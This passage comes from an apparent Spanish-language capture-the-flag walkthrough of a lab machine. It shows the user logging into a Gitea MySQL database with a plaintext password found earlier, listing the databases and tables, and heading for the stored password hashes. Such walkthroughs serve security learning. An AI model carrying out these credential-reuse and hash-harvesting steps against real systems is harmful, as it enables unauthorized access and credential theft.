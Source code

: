 ```bash
    "MacAddress": "02:42:ac:13:00:03",
    "DriverOpts": null
  }
}
```

Ahora nos conectamos y enumeramos

```bash
svc@busqueda:/opt/scripts$ mysql -h 172.19.0.3 -u gitea -pyuiu1hoiu4i5ho1uh gitea
mysql: [Warning] Using a password on the command line interface can be insecure.
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 56
Server version: 8.0.31 MySQL Community Server - GPL

Copyright (c) 2000, 2023, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| gitea              |
| information_schema |
| performance_schema |
+--------------------+
3 rows in set (0.00 sec)

mysql> 
```

Y tenemos los `hashes`

```bash
mysql> use gitea;
Database changed
mysql> show tables;
+---------------------------+
| Tables_in_gitea           |
+---------------------------+
| access                    |
| access_token              |
| action                    |
| app_state                 |
| attachment                |
| badge                     |
| collaboration             |
| comment                   |
| commit_status             |
| commit_status_index       |
| deleted_branch            |
| deploy_key                |
| email_address             |
| email_hash                |
| external_login_user       |
| follow                    |
| foreign_reference         |
```